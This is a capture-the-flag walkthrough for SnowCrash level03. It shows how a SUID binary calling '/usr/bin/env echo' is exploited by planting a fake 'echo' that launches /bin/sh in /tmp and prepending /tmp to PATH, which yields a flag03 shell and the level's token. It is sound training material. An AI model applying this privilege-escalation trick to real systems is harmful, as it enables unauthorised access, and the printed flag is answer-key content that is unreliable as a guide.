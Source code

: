 1. **File search**

    ```bash
    level03@SnowCrash:~$ ll
    total 24
    dr-x------ 1 level03 level03  120 Mar  5  2016 ./
    d--x--x--x 1 root    users    340 Aug 30  2015 ../
    -r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout*
    -r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc*
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
    -r-x------ 1 level03 level03  675 Apr  3  2012 .profile*
    ``` 
    We can see that the file level03* has SUID permissions, which means that when executed, it runs with the privileges of the file owner (flag03), regardless of which user runs it.

    To exploit a file with SUID permissions, like level03*, you usually look for vulnerabilities in the binary, such as command injections, buffer overflows, or unsafe system calls.

2. **Looking for vulnerabilities**

    ```bash
    strings level03
    [...]
    /usr/bin/env echo Exploit me
    [...]
    ```  

    This line stands out when using `strings`.

    ```bash
    level03@SnowCrash:~$ /usr/bin/env echo Exploit me
    Exploit me
    ```   

    The command `/usr/bin/env echo Exploit me` runs the `env` program, which searches for and executes the first executable named echo it finds in the user's `PATH`, passing Exploit me as an argument.
    In this case, it prints Exploit me to the screen using the echo command.

    The key is that env allows you to control which executable is used (in this case, echo), which can be useful for exploiting the binary if you can manipulate the `PATH` and make it execute a malicious echo you created.

3. **Exploitation**

    Create a script called `echo`:

    ```bash
    echo '/bin/sh' > /tmp/echo
    chmod +x /tmp/echo
    ```  

    Modify the PATH so that `/tmp` is at the beginning:
    ```bash
    export PATH=/tmp:$PATH
    ```  

    Run the `level03` binary. This will open a shell with flag03 privileges:
    ```bash
    level03@SnowCrash:~$ ./level03 
    $ whoami 
    flag03
    $ getflag
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
    $ 
    ```
